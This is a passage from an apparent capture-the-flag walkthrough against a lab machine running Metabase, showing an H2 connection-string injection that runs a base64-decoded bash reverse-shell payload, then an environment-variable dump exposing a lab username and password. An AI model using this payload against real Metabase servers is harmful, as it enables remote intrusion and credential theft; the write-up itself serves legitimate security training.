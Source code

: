 ```bash
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,<encoded_payload>}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Now, just open the nc and wait for the reverse shell.

## 3. Lateral Movement

After getting the rev shell, we land as `b7ed0bb2dd1e` but after looking for user flag, we only find a /home directory, of the user `metabase` which is empty.

After looking a bit more, we can check environment variables and find 2 important things.

```bash
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=b7ed0bb2dd1e
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/
```
